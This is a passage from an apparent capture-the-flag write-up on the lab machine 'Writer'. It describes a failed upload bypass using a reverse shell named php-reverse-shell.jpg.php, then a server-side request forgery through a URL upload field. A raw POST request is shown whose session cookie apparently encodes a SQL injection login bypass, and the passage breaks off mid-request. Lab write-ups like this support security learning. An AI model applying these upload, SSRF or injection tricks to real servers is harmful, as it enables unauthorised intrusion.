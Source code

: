 ![](/reports/Writer/image5.png)

The web page does not properly check if an uploaded file is an image, as it was possible to upload a reverse shell by the name of php-reverse-shell.jpg.php. This, however, did not lead to RCE as the web page nevertheless treated the file as an image. Furthermore, uploading a malicious image with PHP code did not work.

An addition to the image upload feature is the ability to upload files given a url. This could be utilized to cause the server to perform GET requests to an arbitrary website of the user’s choice\:

Request

{% highlight bash %} 
POST /dashboard/stories/add HTTP/1.1Host\: 10.10.11.101  
User-Agent\: Mozilla/5.0 (Windows NT 10.0\; rv\:78.0) Gecko/20100101 Firefox/78.0  
Accept\: text/html,application/xhtml+xml,application/xml\;q=0.9,image/webp,\*/\*\;q=0.8  
Accept-Language\: en-US,en\;q=0.5  
Accept-Encoding\: gzip, deflate  
Content-Type\: multipart/form-data\; boundary=---------------------------12417370376638841362770592069  
Content-Length\: 850  
Origin\: http\://10.10.11.101  
DNT\: 1  
Connection\: close  
Referer\: http\://10.10.11.101/dashboard/stories/add  
Cookie\: session=eyJ1c2VyIjoiJ09SIDE9MS0tIC0ifQ.YSLw7w.2OHVWSzrpZAobEiyfxo94ul3lfg  
Upgrade-Insecure-Requests\: 1  
Sec-GPC\: 1  
  
-----------------------------12417370376638841362770592069  
Content-Disposition\: form-data\; name="author"  
  
0xd4y  
-----------------------------12417370376638841362770592069  
Content-Disposition\: form-data\; name="title"  
  
Writeup  
-----------------------------12417370376638841362770592069  
Content-Disposition\: form-data\; name="tagline"  
  
